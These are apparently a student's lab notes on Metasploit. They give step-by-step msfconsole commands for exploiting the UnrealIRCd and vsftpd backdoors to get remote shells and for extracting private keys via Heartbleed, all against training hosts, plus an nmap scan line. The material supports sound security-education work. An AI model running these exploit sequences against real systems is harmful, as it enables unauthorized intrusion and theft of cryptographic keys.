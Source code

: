 # Metasploit

metasploit can be used to: 
- create trojan horses
- run attacks

Links
- https://docs.metasploit.com
- https://www.youtube.com/watch?v=oBAC5UfalC8
- https://docs.rapid7.com/metasploit/metasploitable-2-exploitability-guide/
- https://www.hackingarticles.in/comprehensive-guide-on-metasploitable-2/


### Example attack: Remote shell via IRC vulnerability 
From the Nessus scan i know that iloveshells.vm.vuln.land has a critical vulnerability that allows remote shell execution via IRC. To exploit this, i did the following. 
- `msfconsole` start it from console (now we can enter specific commands)
- `search irc` -> will show exploits (because the got "exploits" in their path/name) 
    - found unrealRDC 
- `use exploit/unix/irc/unreal_ircd_3281_backdoor` 
- `set RHOSTS iloveshells.vm.vuln.land` 
- `set payload payload/cmd/unix/bind_perl`
- `exploit`

 works :-)  we got our shell and can now run bash commands. Maybe it is because I don't know linux bash not very well (or metasploit, shell etc.) but I cannot really navigate in the folder. "cd .." doesn't seem to work to explore the file system. However, i can still do it via `ls / -al` to see the root dir and from there I coud use cat or pipes etc. to explore the system. 

(taken from exercise Gaining access 2 )

### Example attack on FTP vulnerability (see video)

- `msfconsole` start it from console (now we can enter specific commands)
- `search exploits` -> will show exploits (because the got "exploits" in their path/name) 
- `search vsftp`  -> search for exploit that has "vsftp" in its path/name
- `use exploit/unix/ftp/vsftpd_234_backdoor` use/run specific exploit (full path) > command promt will change (now can enter commands for that particular exploit)
    - `options` -> exists for every exploit
    - `set RHOSTS iloveshells.vm.vuln.land`  to set server to be attacked for the vsftpd exploit
        - you can run options again to see if it appears in options now
    - `show payloads` -> will show payloads that are available for this server (if there is only one it will automatically choose the only one available)$
    - `exploit` -> run/start acutal exploit (if there is only one exploit there we can leave out the payload)
        - with this exploit (vsftpd) a shell is now open (other exploits will provide different feedback) and we can now run commands on this shell which are executed on iloveshells.vm.vuln.land

(taken from video: https://www.youtube.com/watch?v=oBAC5UfalC8   )

### Exploit Heartbleed bug
1. start metasploit resource (exercise 2) and log in
2. Execute the commands
    - `msfconsole` > start metasploit
    - `use auxiliary/scanner/ssl/openssl_heartbleed` 
    - `set action KEYS`
    - `set RHOST heartbleed.vm.vuln.land` 
    - `set MAX_KEYTRIES 255` (as explained.. above 250 makes no sense)
    - `exploit`

Success: attack succeded. Private key starts with "MIICW"  (see screenshot)


### Further examples
- Postgres -> see solutions "Gaining Access/Metasploitable MV"
- Brute-force / Login SSH -> see solutions "Gaining Access/Metasploitable MV"
- Java RMI -> see solutions "Gaining Access/Metasploitable MV"


### Varia/Leftovers

- Heartbleed bug: There is another tool "Heartleech" to exploit the heartbleed vulnerabilitiy, which should be more reliable. However, I only succeded with metasploit
- check lab task "Gaining Access/Metasploitable MV"
- To find vulnerabilities we could use: 
    - Nessus (more advanced)
    - NMAP: `nmap -p -sV iloveshells.vm.vuln.land`(would show open ports + versions)